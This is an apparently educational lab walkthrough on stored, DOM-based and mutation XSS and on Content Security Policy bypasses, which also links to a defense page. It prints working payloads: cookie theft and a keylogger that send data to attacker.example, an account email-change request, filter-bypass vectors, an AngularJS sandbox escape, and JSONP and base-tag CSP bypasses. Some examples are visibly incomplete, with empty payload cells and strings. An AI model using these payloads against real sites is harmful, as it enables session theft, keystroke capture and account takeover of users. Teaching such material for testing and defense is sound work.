

# Week 06: Attack walkthrough - Stored & DOM XSS, CSP Bypass

> ⚠️ **Lab only.**

---

## The three XSS shapes - same family, very different exploit chains



## Part 1: Stored XSS

### The pattern

The app stores user content (a comment, a profile field, a chat message) and renders it on someone else's page later. If the rendering doesn't escape:

```
1. Attacker submits: <script>fetch('https://evil/'+document.cookie)</script>
2. Server stores it in DB.
3. Victim loads the page.
4. Server renders the stored string into HTML.
5. Victim's browser executes the script - in the victim's session.
```

The wormable risk: in a social-app context, a stored XSS in profile bios can hit every user who views the attacker's profile, and the payload can then *modify other profiles* - exponential spread. The 2005 MySpace Samy worm hit 1M users in 20 hours via stored XSS.

### Finding stored XSS - checklist

Test every place that stores user input and renders it back later:

| Location | Often-missed surfaces |
|---|---|
| Comments, reviews | Author name field (not just the comment body) |
| Profile fields | Display name, bio, "website" URL, custom title |
| Chat / DMs | The other user's render, not just yours |
| Admin views | Admin sees content from regular users - privilege escalation surface |
| Email rendering | Many web apps render email in-app; HTML emails can carry XSS |
| Imported data | CSV uploads, file metadata, EXIF |
| Filenames | Avatar uploads `.png` |
| Public APIs | A JSON response rendered by some frontend somewhere |

### Stored XSS exploit chains beyond `alert(1)`

#### Session theft (when cookies aren't HttpOnly)

```html
<script>
fetch('https://attacker.example/?c=' + encodeURIComponent(document.cookie));
</script>
```

#### Authenticated CSRF

The payload runs *as the victim*. Make state-changing requests on their behalf:

```html
<script>
fetch('/api/account/email', {
  method: 'PUT',
  credentials: 'include',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({email: 'attacker@evil.com'})
});
</script>
```

#### Keylogging

```html
<script>
addEventListener('keydown', e => {
  navigator.sendBeacon('https://attacker.example/keys',
                       JSON.stringify({k: e.key, t: Date.now(), u: location.href}));
});
</script>
```

#### Phishing the credentials

Replace the page content with a clone of the login form pointed at your server.

#### Worm chains

In the same payload, *also* modify the victim's stored data so they spread the payload to their viewers. Use the legit API, no fancy tricks.

### Variants - when the obvious tag is blocked

| Filter | Bypass |
|---|---|
| Strips `<script>` | `` |
| Strips event handlers like `onerror` | `<svg><animate onbegin=alert(1) attributeName=x dur=1s>` |
| Strips both | `<a href="javascript:alert(1)">click</a>` (works if you can make it auto-clicked or you trick the victim) |
| Strict allow-list to `<b>`, `<i>`, `<a>` only | `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">click</a>` (data-URL) |
| Strips quotes | Backticks: `<svg onload=alert\`1\`>` |
| Strips spaces | `<svg/onload=alert(1)>` (slash works as separator) |
| Lowercases everything | Lowercase works for HTML; HTML is case-insensitive |
| URL-encodes special chars | Use HTML entities: `&#x3c;svg&#x20;onload&#x3d;alert(1)&#x3e;` |

The takeaway: denylist filters always have bypasses. The right defense is encoding at output, not filtering at input.

## Part 2: DOM-based XSS

### The pattern

```javascript
// vulnerable client-side code
const searchParam = new URLSearchParams(location.search).get('q');
document.getElementById('result').innerHTML = "Results for: " + searchParam;
```

The server returns the same HTML to everyone - no reflection. But the client-side JS reads from `location.search` (a **source**) and writes to `innerHTML` (a **sink**) without sanitization. The payload is executed entirely client-side.

### Sources and sinks - the language to learn

**Sources** are places where attacker-controlled data enters JavaScript:

- `location.href`, `location.search`, `location.hash`
- `document.URL`, `document.referrer`
- `window.name`
- `localStorage`, `sessionStorage` (if any of it was attacker-controlled at write)
- `postMessage` payloads
- Cookies (if writeable from JS)
- Any `fetch` / `XMLHttpRequest` response from an attacker-influenceable endpoint

**Sinks** are places where data execution happens:

- `innerHTML`, `outerHTML`, `document.write`, `document.writeln`
- `eval`, `Function()`, `setTimeout`/`setInterval` with string args
- `<script>.src`, `<iframe>.src`, `location.href` (with `javascript:` URLs)
- jQuery's `.html()`, Vue's `v-html`, React's `dangerouslySetInnerHTML`

DOM XSS = data flow from a source to a sink without sanitization.

### Finding DOM XSS

In Burp: install the **DOM Invader** extension (built into Burp Pro; available as a Chrome extension). It instruments the page and tells you which sources feed which sinks, automatically. In lab, fire it up and click around.

Manually, in Chrome DevTools:

```javascript
// Hook all innerHTML writes to log the source
const orig = Object.getOwnPropertyDescriptor(Element.prototype, 'innerHTML').set;
Object.defineProperty(Element.prototype, 'innerHTML', {
  set(v) {
    console.warn('innerHTML write:', v, 'on', this);
    return orig.call(this, v);
  }
});
```

Then navigate the app. Every `innerHTML =` is logged with its value. If the value contains attacker-controlled data, you found a sink.

### Exploiting via `location.hash`

```
https://target.example/page#
```

`location.hash` never goes to the server (it's client-side only). The server never sees the payload, so server-side WAFs / detection are blind.

PortSwigger's "DOM XSS in document.write sink using source location.search" lab is the canonical exercise.

### Exploiting via `postMessage`

The cross-origin messaging API. Two patterns:

```javascript
// vulnerable: trusts any sender
addEventListener('message', e => {
  document.body.innerHTML = e.data;   // sink + source = DOM XSS
});
```

The attacker hosts a malicious page that opens or embeds the target and sends a message:

```javascript
target.postMessage('', '*');
```

Fix: check `e.origin` against an allow-list before processing the message.

### DOM XSS via client-side prototype pollution

Newer class. Attacker-controlled data ends up in `Object.prototype` via a buggy deep-merge function. Then *any* later code that checks `if (obj.someProp)` reads the attacker's polluted value.

```javascript
// somewhere: vulnerable merge
function merge(target, source) {
  for (let k in source) {
    if (typeof source[k] === 'object') {
      merge(target[k], source[k]);  // walks into __proto__ if source.__proto__ exists
    } else {
      target[k] = source[k];
    }
  }
}

// attacker triggers: merge({}, JSON.parse('{"__proto__":{"isAdmin":true}}'))
// now: ({}).isAdmin === true everywhere in the app
```

If any DOM-sink-relevant property gets polluted (`script-src` lookup, sanitizer config), it becomes DOM XSS.

## Part 3: Mutation XSS (mXSS)

The sanitizer parses the HTML one way; the browser parses the *same string* differently after the sanitizer runs.

```html
<!-- input -->
<noscript><p title="</noscript>">

<!-- sanitizer sees an "<noscript>" wrapping a paragraph with a title attribute, all safe -->
<!-- browser, when JS is enabled, re-parses with noscript inert -->
<!-- result: <p title=""></p> -->
```

The HTML standard has a hundred edge cases where the parsed tree depends on whether JavaScript is enabled, the surrounding context (HTML vs. SVG vs. MathML), and quoting rules. Sanitizers that work as standalone parsers miss these.

**DOMPurify** specifically handles known mXSS classes - that's why it's the recommended sanitizer rather than rolling your own.

## Part 4: CSP bypasses

CSP exists to limit the damage when XSS lands. Real-world CSPs are usually permissive enough to bypass.

### Bypass 1: Loose `script-src` with a CDN

```
Content-Security-Policy: script-src 'self' https://ajax.googleapis.com
```

If `ajax.googleapis.com` hosts any unfiltered JSONP endpoint, you can load it as a script and inject:

```html
<script src="https://ajax.googleapis.com/ajax/services/feedback/web/v1/jsonp?callback=alert(1);//"></script>
```

The "callback" parameter becomes valid JS prepended to the response. CSP allowed the source, so the script runs.

Modern CDNs have mostly purged JSONP endpoints. Older ones still expose them.

### Bypass 2: `unsafe-inline` - the obvious one

```
script-src 'self' 'unsafe-inline'
```

This CSP allows inline scripts. Any XSS payload that injects `<script>` works. `unsafe-inline` defeats the central XSS protection of CSP.

### Bypass 3: `unsafe-eval` and AngularJS

```
script-src 'self' 'unsafe-eval'
```

`unsafe-eval` allows `eval()`. If the page uses AngularJS, you can inject an Angular expression that breaks out of the sandbox:

```html
<div ng-app>{{constructor.constructor('alert(1)')()}}</div>
```

This pattern works wherever client-side templates evaluate user input. The "AngularJS sandbox escape and CSP" PortSwigger lab is the exercise.

### Bypass 4: `base-uri` not restricted

If `base-uri` is permissive (or unset), inject a `<base>` tag:

```html
<base href="https://attacker.example/">
```

Now every relative URL on the page resolves to the attacker's server, including subsequent `<script src="app.js">` loads. The page itself loads attacker-controlled JS - and CSP allowed it because `'self'` is now the attacker.

Fix: `base-uri 'self'` or `base-uri 'none'`.

### Bypass 5: Dangling markup

When you can inject *some* HTML but not a working `<script>`, you can still exfiltrate data via "dangling markup":

```html

<input name="csrf" value="abc123">
<!-- after the attacker's injection -->

                                                                  ^^^^^^
                                  the browser loads this URL, the token is in it
```

Even without script execution, you've exfiltrated. CSP doesn't block image loads to arbitrary hosts unless `img-src` is restricted (and usually it isn't).

### Bypass 6: CSP report-uri leak (older bug class)

If CSP has a `report-uri` pointed at a same-origin endpoint and you can control a redirect, you can cause CSP to send "what was blocked" reports containing portions of the page to a server you control.

### Bypass 7: PDFs and content sniffing

`object-src` defaults to inheriting `default-src`. Browsers sometimes execute JS from PDF content embedded via `<object>`/`<embed>`. Restricting `object-src 'none'` closes this.

## Common mistakes when learning

- **Treating reflected and stored as the same problem.** Stored has a much wider blast radius and often wormable.
- **Only testing the obvious sinks.** `dangerouslySetInnerHTML` is one - what about `v-html`, `setHTML`, `outerHTML` writes inside event handlers?
- **Reading the CSP and stopping at "script-src 'self'."** That single line allows JSONP, allows base-tag attacks if `base-uri` is unset, and so on. Read the whole header.
- **Forgetting that mobile WebViews have weaker CSP support.** Native apps embedding web content often disable CSP, and the in-app browser doesn't enforce it.
- **Pasting payloads from a cheat-sheet without understanding context.** A payload that works inside `<div>` fails inside `<title>`, inside an attribute, inside a URL, inside JSON.

Now read [defense.md](defense.md).
